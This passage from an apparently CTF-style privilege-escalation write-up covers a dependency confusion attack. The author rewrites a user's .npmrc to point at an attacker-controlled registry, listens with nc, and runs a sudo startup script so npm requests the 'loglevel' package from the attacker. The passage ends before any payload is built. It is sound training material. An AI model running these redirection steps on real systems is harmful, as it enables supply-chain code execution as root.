 Looking at `~/.npm` made me notice:

```shell
cat /home/kavi/.npmrc
# registry=http://127.0.0.1:4873/
```

So the local app at `/opt/app` will install dependencies from a local registry:

```shell
grep -ai require /opt/app/index.js
# const http = require('http')
# const fs = require('fs')
# //var logger = require('db-logger')
# var logger = require('loglevel')
```

Now we can point NPM to our own server and host a malicious version of `loglevel` with:

```shell
echo 'registry=http://10.10.16.5:4873/' > /home/kavi/.npmrc
```

Listen on our side and run the app with:

```shell
# attacker
nc -lvn 10.10.16.5 4873
# target
sudo /opt/app/startup.sh
```

It works!

```
Ncat: Connection from 10.10.11.165.
Ncat: Connection from 10.10.11.165:49504.
GET /loglevel HTTP/1.1
accept-encoding: gzip
version: 3.5.2
accept: application/json
referer: install loglevel
npm-session: 42f835f5666b8b4d
user-agent: npm/3.5.2 node/v8.10.0 linux x64
host: 10.10.16.5:4873
Connection: keep-alive
```

```
[+] Installing loglevel
▌ ╢░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░
```

This is called a ["dependency confusion attack"][snyk-dca]. 

### Creating a private registry

This is well documented and most easy with Docker:


[author-profile]: https://app.hackthebox.com/users/389926
[erms-repo]: https://www.sourcecodester.com/php/15160/simple-exam-reviewer-management-system-phpoop-free-source-code.html
[frontpage]: images/frontpage.png
[erms-sqli]: https://www.exploit-db.com/exploits/50725
[oretnom23]: https://www.google.com/search?q=oretnom23+exam+php
[sfms-admin-login]: images/sfms-admin-login.png
[sfms-sqli]: https://www.exploit-db.com/exploits/48437
[snyk-dca]: https://snyk.io/blog/detect-prevent-dependency-confusion-attacks-npm-supply-chain-security/
[student-portal]: images/student-portal.png